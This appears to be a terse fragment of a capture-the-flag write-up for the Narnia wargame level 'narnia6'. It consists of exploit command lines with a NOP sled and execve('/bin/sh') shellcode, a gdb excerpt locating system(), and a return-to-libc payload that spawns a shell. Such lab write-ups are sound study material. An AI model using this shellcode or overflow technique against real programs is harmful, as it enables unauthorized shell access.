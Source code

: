 ./narnia6 $(python -c'print "\x90" * 247 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xa0\xd8\xff\xff"') a

```
Starting program: /games/narnia/narnia6 hello slothkrew

Breakpoint 3, 0x0804855d in main ()
(gdb) break system
Breakpoint 4 at 0xf7e61cd0 <---
```

./narnia6 AAAAAAAA$(python -c'print "\xd0\x1c\xe6\xf7"') AAAAAAAA/bin/bash
